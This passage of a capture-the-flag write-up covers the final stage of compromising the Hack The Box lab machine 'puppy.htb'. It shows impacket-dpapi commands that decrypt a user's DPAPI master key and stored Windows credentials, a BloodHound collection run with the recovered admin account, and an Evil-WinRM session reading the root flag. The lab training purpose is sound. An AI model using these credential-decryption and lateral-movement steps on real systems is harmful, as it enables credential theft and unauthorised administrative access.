 We can see there's a key in the `Credentials` folder.

The credentials are saved in **Windows Credential Manager : It uses** **DPAPI encryption (CryptProtectData) and binds** **the MasterKey** of the user or computer.

First we need to download the keys, we can't use `download`, we can use [SMB](../../../3%20-%20Tags/Hacking%20Concepts/SMB.md).

Now we use the password and `SID` to decrypt the user's `DPAPI` to output the user's `master key` (decrypted):

```bash
impacket-dpapi masterkey -file masterkey_encrypted -password '{{REDACTED_PASSWD}}' -sid S-1-5-21-1487982659-1829050783-2281216199-1107 
```

Now we decrypt the stored credentials `credential_encrypted` using the master key obtained before, outputting the plain-text credentials:

```bash
impacket-dpapi credential -file credential_encrypted -key {{REDACTED_KEY}}
```

`steph.cooper_adm`is the user obtained.

[Bloodhound](../../../3%20-%20Tags/Hacking%20Tools/Bloodhound.md) again for data:

```bash
bloodhound-python -u 'steph.cooper_adm' -p '{{REDACTED_PASSWD}}'  -d puppy.htb -ns 10.10.11.70 -c All --zip
```

Now you can simply log in with [Evil-WinRM](../../../3%20-%20Tags/Hacking%20Tools/Evil-WinRM.md) and `type` the root flag:

```bash
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir

Directory: C:\Users\Administrator\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         9/22/2025   4:01 AM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
{{REDACTED_PASSWD}}
```

Pwned!!